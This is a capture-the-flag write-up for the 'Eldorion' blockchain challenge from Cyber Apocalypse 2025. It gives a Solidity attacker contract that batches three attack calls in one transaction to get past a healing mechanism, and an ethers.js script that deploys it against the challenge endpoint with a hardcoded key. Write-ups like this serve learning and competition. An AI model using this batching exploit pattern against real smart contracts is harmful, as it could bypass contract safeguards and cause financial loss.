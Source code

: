 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Eldorion Writeup
desc: Check out our writeup for Eldorion for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: Eldorion
tags: "blockchain, starry, solidity, ethers"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```




> Solved by Starry-Lord

![](https://i.imgur.com/VxfRD0j.png)


This Beast was killed with adding a `attacker.sol` contract to bypass the “eternal resilience” function, which kept healing the boss after each attack. So we needed to make a triple attack:


    cat contracts/attack.sol                                                                                        
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    
    interface IEldorion {
        function attack(uint256 damage) external;
    }
    
    contract Attacker {
        function attackThree(address target) external {
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
            IEldorion(target).attack(100);
        }
    }

here is the attack script with ethers.js v5 (because I never managed to make this challenge return valid JSON with v6):


    const fs = require("fs");
    const path = require("path");
    const solc = require("solc");
    const { ethers } = require("ethers");
    
    // === Config ===
    const RPC_URL = "http://83.136.253.25:50179";
    const PRIVATE_KEY = "0x0ce0d36d2fb2e0cfc7f413aec7acf865871b6f71f28ffda18cff63ab50a8c59c";
    
    const eldorionAddress = "0x6114F5Aca890BaE0b153de34Cd024ba24C2A3A68";
    const setupAddress    = "0xaed4036993875E6C22E37BC1a12EFB81e89A9222";
    
    const eldorionAbi = [
      "function health() view returns (uint256)",
      "function isDefeated() view returns (bool)"
    ];
    const setupAbi = [
      "function isSolved() view returns (bool)"
    ];
    const attackerAbi = [
      "function attackThree(address target) external"
    ];
    
    // === Setup Provider + Signer ===
    const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
    const signer = new ethers.Wallet(PRIVATE_KEY, provider);
    
    // === Compile Attacker.sol ===
    async function compileAttacker() {
      const filePath = path.join(__dirname, "../contracts/attack.sol");
      const source = fs.readFileSync(filePath, "utf8");
    
      const input = {
        language: "Solidity",
        sources: {
          "attack.sol": { content: source }
        },
        settings: {
          outputSelection: {
            "*": {
              "*": ["abi", "evm.bytecode"]
            }
          }
        }
      };
    
      const output = JSON.parse(solc.compile(JSON.stringify(input)));
    
      // Print compilation errors
      if (output.errors) {
        for (const error of output.errors) {
          console.error(error.formattedMessage);
        }
      }
    
      const contract = output.contracts["attack.sol"]?.["Attacker"];
      if (!contract) {
        throw new Error("❌ Compilation failed: Attacker contract not found.");
      }
    
      return {
        abi: contract.abi,
        bytecode: contract.evm.bytecode.object
      };
    }
    
    // === Main Execution ===
    async function main() {
      console.log("Attacker:", await signer.getAddress());
    
      const { abi, bytecode } = await compileAttacker();
    
      const factory = new ethers.ContractFactory(abi, bytecode, signer);
      const attacker = await factory.deploy();
      await attacker.deployed();
      console.log("🚀 Attacker contract deployed at:", attacker.address);
    
      const tx = await attacker.attackThree(eldorionAddress);
      await tx.wait();
      console.log("⚔ Sent 3 attacks in a single transaction!");
    
      const eldorion = new ethers.Contract(eldorionAddress, eldorionAbi, signer);
      const setup = new ethers.Contract(setupAddress, setupAbi, signer);
    
      const health = await eldorion.health();
      console.log("🧪 Eldorion's Health:", health.toString());
    
      const defeated = await eldorion.isDefeated();
      console.log("💀 Eldorion Defeated?", defeated);
    
      const solved = await setup.isSolved();
      console.log("🏁 Challenge Solved?", solved ? "✅ YES" : "❌ Not yet");
    
      if (solved) {
        console.log("🎉 Go grab your flag!");
      }
    }
    
    main().catch((err) => {
      console.error("💥 Error:", err.message || err);
    });
    
![](https://i.imgur.com/Zmnbjk5.png)

